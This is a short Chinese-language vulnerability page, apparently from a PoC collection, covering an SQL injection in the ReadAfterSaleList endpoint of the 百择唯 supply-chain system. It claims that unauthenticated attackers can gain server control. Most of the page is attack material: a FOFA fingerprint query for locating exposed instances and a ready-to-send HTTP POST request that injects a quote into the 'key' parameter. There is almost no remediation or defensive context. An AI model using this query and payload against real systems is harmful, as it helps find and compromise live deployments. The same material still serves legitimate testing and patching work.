 # 百择唯供应链存在ReadAfterSaleList存在SQL注入漏洞

百择唯供应链存在ReadAfterSaleList SQL注入漏洞，未经身份验证的攻击者通过漏洞，执行任意代码从而获取到服务器权限。

## fofa

```javascript
body="/Content/Css/_SiteCss/"
```

## poc

```javascript
POST /AfterSale/ReadAfterSaleList HTTP/1.1
Host: 
Content-Length: 106
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 你的Cookie
Connection: keep-alive

time=%E8%BF%91%E4%B8%80%E5%91%A8%E8%AE%A2%E5%8D%95&state=%E5%B7%B2%E7%AD%BE%E6%94%B6&key='&index=1&rows=10
```

